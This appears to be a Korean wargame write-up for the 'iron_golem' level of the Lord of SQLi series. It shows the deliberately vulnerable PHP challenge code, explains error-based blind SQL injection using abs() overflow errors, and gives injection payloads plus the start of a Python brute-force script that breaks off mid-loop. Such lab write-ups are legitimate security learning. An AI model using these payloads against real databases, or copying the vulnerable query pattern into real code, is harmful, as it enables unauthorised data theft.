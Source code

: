 21-iron-golem
====
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit(mysqli_error($db));
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```
### error based sql injection 이해하기
* 처음 해보는 blind sql injection이라 애를 좀 먹었다. blind sql injection란 의미는
    * 앞의 문제에서는 HI {id} 를 이용해 구문이 참값인지를 알 수 있엇지만, 여기서는 알 수 없다.
* db에서 error가 나면, 그 에러를 출력한다.
* error based sql injection
  * mysql 구문은 or 구문에서 앞의 구문이 참이면, 뒷 구문을 계산하지 않는 경향이 있다.
    * 예를 들어, 1=1 || *오류가 발생하는 구문* 이면, 에러가 발생하지 않는다.
    * 예를 들어, IF(true, *정상 구문*, *오류 구문*)이면, 에러가 발생하지 않는다.
    * 반대로는, 오류 구문이 뜬다.
  * 이를 이용해 기존의 substr, mid, ascii, order 등을 이용해 pw를 추측했던 행위를 계속할 수 있다.
  * 우선, 위의 원리를 이용하기 위해 오류 구문을 정하고, 오류 구문이 출력될 수 있는 환경을 만들어주자
    * 여기서는 abs의 error message를 사용하였다. [출처](https://www.sqlite.org/lang_corefunc.html)
    >  If X is the integer -9223372036854775808 then abs(X) throws an integer overflow error since there is no equivalent positive 64-bit two complement value.
    * 즉, abs에 -9223372036854775808를 넣게 되면 오류가 난다는 소리이다.
* ?pw=' or id='admin' and IF(length(pw)>1, abs(-9223372036854775808), 1)에서는 오류 메시지로
  * **BIGINT value is out of range in 'abs(-(9223372036854775808))'** 가 뜨지만
* ?pw=' or id='admin' and IF(length(pw)<1, abs(-9223372036854775808), 1)에서는 오류 메시지가 뜨지 않고 정상 출력이 되므로, error based sql injection을 할 준비가 되었다.
### pw 길이와 pw 구성 문자 추측하기
* 별도의 코드 없이
  * ?pw=' or id='admin' and IF(length(pw)=32, abs(-9223372036854775808), 1) 를 입력했더니, 오류 메시지가 출력되지 않았다. (*좀 기네..*)
* 지난번처럼 한글로 pw가 되어있을수도 있으니,
  * ?pw=' or id='admin' and IF(length(substr(pw, 1,1))=1, abs(-9223372036854775808), 1)를 입력했더니, 오류 메세지가 출력되지 않았다.
  * 따라서, 영어 혹은 숫자로 되어있을 수 있다고 추측할 수 있다.
### pw 추측하기
* 다음의 코드로 추측하였다.
  ```python
  import urllib.request
  import requests

  url='https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php'
  headers = { 'Cookie': 'PHPSESSID=saghrkfp5s6ev9kd23gbl134qe' }
  pw=""

  for i in range (1,33):
      for j in range(48, 123):
          if (j == 95):
              continue
  ```